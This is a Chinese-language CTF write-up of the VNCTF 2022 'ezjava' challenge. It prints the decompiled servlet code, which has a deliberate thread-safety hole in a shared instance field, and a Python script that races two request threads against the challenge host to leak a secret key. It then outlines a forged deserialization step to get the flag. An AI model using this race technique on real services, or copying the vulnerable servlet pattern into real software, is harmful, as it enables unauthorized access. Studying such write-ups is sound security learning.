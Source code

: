 # VNCTF 2022-ezjava

### 这题n年前做的了，实在找不到环境了，懂了线程那个的知识点就好



javaSec-Servlet的线程安全问题
刚开始有个任意文件读取，直接读Servlet文件反编译下先看HelloWorldServlet：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package servlet;

import entity.User;
import java.io.IOException;
import java.util.Base64;
import java.util.Base64.Decoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import util.Secr3t;
import util.SerAndDe;

@WebServlet(
    name = "HelloServlet",
    urlPatterns = {"/evi1"}
)
public class HelloWorldServlet extends HttpServlet {
    private volatile String name = "m4n_q1u_666";
    private volatile String age = "666";
    private volatile String height = "180";
    User user;

    public HelloWorldServlet() {
    }

    public void init() throws ServletException {
        this.user = new User(this.name, this.age, this.height);
    }

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }

    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}


```



**Secr3t.class**：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import org.apache.commons.lang3.RandomStringUtils;

public class Secr3t {
    private static final String Key = RandomStringUtils.randomAlphanumeric(32);
    private static StringBuffer Flag;

    private Secr3t() {
    }

    public static String getKey() {
        return Key;
    }

    public static StringBuffer getFlag() {
        Flag = new StringBuffer();
        InputStream in = null;

        try {
            in = Runtime.getRuntime().exec("/readflag").getInputStream();
        } catch (IOException var12) {
            var12.printStackTrace();
        }

        BufferedReader read = new BufferedReader(new InputStreamReader(in));

        try {
            String line = null;

            while((line = read.readLine()) != null) {
                Flag.append(line + "\n");
            }
        } catch (IOException var13) {
            var13.printStackTrace();
        } finally {
            try {
                in.close();
                read.close();
            } catch (IOException var11) {
                var11.printStackTrace();
                System.out.println("Secr3t : io exception!");
            }

        }

        return Flag;
    }

    public static boolean check(String checkStr) {
        return "vnctf2022".equals(checkStr);
    }
}


```

直接看他的check方法就好，我们再回到我们的那个servlet，可以看到这有两个判断，我们需要通过这两个判断来获取key值：

![](image/image_P1v_7UuU1T.png)



Servlet的线程安全问题

> Servlet实际上是一个单件，当我们第一次请求某个Servlet时，Servlet容器将会根据web.xml配 置文件或者是注解实例化这个Servlet类，之后如果又有新的客户端请求该Servlet时，则一般不 会再实例化该Servlet类，这说明了什么呢?简单来说，当多个用户一起访问时，得到的其实是 同一个Servlet实例，这样的话，他们对实例的成员变量的修改其实会影响到别人，所以在开发 的时候如果没有注意这个问题往往会有一些额安全问题，而往往Servlet的线程安全问题主要是 由于实例变量使用不当而引起



**ok，了解完原理我们来写个脚本进行竞争：**

```python
from concurrent.futures import thread
import requests
import threading

def thread1():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=wa1ki0")
        r.encoding = "utf-8"
        if r.text.find("The Key is")!=-1:
            print(r.text)

 
def thread2():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=vnctf2022")
        if r.text.find("The Key is")!=-1:
            print(r.text)

if __name__ == '__main__':
    thread1=threading.Thread(target=thread1)
    thread2=threading.Thread(target=thread2)
    thread1.start()
    thread2.start()
    thread1.join()
    thread2.join()



```

运行结果：

![](image/image_BY1hQh46-F.png)

key获得后会进行反序列化比较，其实只要反序列化一个要求的一模一样的类就好了：

![](image/image_XaJ71Juelo.png)

接着我们序列化一个类（transient关键字修饰的变量无法直接反序列化，所以在生产byte的时候需要重写一下writeObject，否则会自己的 User对象的height值为空) :

![](image/image_jyzFqrLZKM.png)

![](image/image_izYp-K8hjj.png)

传个参就好了最后：

![](image/image_o_oCpDS-eO.png)
